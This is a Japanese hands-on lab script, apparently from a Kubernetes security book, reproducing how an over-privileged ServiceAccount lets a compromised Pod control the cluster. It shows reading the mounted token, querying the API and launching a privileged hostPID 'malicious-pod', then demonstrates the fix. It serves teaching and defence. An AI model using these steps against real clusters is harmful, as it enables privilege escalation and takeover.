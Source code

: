 # ケース8: PodからKubernetesクラスタを不正に操作されてしまった

`Podのデプロイ`
```bash
kubectl apply -f sample-sa.yaml

kubectl apply -f sample-crb.yaml

kubectl apply -f sample-pod.yaml
```


`Podのに含まれるコンテナへの侵入`
```bash
kubectl exec -it sample-pod -- /bin/bash

root@sample-pod:/# hostname
```


`Podに含まれるコンテナ内でkubectlコマンドのインストール`
```bash
root@sample-pod:/# apt update

root@sample-pod:/# apt install -y curl

root@sample-pod:/# curl -LO https://dl.k8s.io/release/v1.30.0/bin/linux/amd64/kubectl

root@sample-pod:/# chmod +x kubectl

root@sample-pod:/# mv ./kubectl /usr/local/bin/kubectl
```

`Podに含まれるコンテナからKubernetesクラスタの情報を参照`
```bash
root@sample-pod:/# kubectl get nodes

root@sample-pod:/# kubectl get namespaces

root@sample-pod:/# kubectl get pods
```

`Podに含まれるコンテナからPodのデプロイ`
```bash
root@sample-pod:/# cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  hostPID: true
  containers:
    - name: ubuntu
      image: ubuntu:22.04
      command: ["/bin/sh", "-c", "while :; do sleep 10; done"]
      securityContext:
        privileged: true
EOF
```

`Podの状態確認`
```bash
root@sample-pod:/# kubectl get pod malicious-pod

root@sample-pod:/# exit
```

`ClusterRoleの確認`
```bash
kubectl get clusterrole cluster-admin -o yaml
```

`Pod内のコンテナにマウントされたServiceAccountの情報`
```bash
kubectl get pod sample-pod -o yaml

kubectl exec -it sample-pod -- ls /var/run/secrets/kubernetes.io/serviceaccount
```

`curlコマンドによるKubernetesクラスタへのアクセス`
```bash
kubectl exec -it sample-pod -- /bin/bash

root@sample-pod:/# SERVICE_ACCOUNT_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`

root@sample-pod:/# curl -H "Authorization: Bearer ${SERVICE_ACCOUNT_TOKEN}" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces

root@sample-pod:/# exit
```

`default ServiceAccountの確認`
```bash
kubectl get serviceaccount default
```

`default ServiceAccountを紐付けたPodのデプロイ`
```bash
kubectl apply -f default-sa-pod.yaml

kubectl get pod default-sa-pod -o yaml
```

`PodからKubernetesクラスタを操作できないことの確認`
```bash
kubectl exec -it default-sa-pod -- /bin/bash

root@default-sa-pod:/# kubectl get nodes

root@default-sa-pod:/# exit
```

`ServiceAccount情報がマウントされていないことの確認`
```bash
kubectl apply -f no-sa-token-pod.yaml

kubectl get pod no-sa-token-pod -o yaml

kubectl exec -it no-sa-token-pod -- ls /var/run/secrets/kubernetes.io/serviceaccount
```

`PodからKubernetesクラスタにアクセスできないことの確認`
```bash
kubectl exec -it no-sa-token-pod -- /bin/bash

root@no-sa-token-pod:/# kubectl get nodes

root@no-sa-token-pod:/# exit
```

`検証に使用したリソースの削除`
```bash
kubectl delete pod sample-pod \
    malicious-pod \
    default-sa-pod \
    no-sa-token-pod

kubectl delete clusterrolebinding sample-crb

kubectl delete serviceaccount sample-sa
```
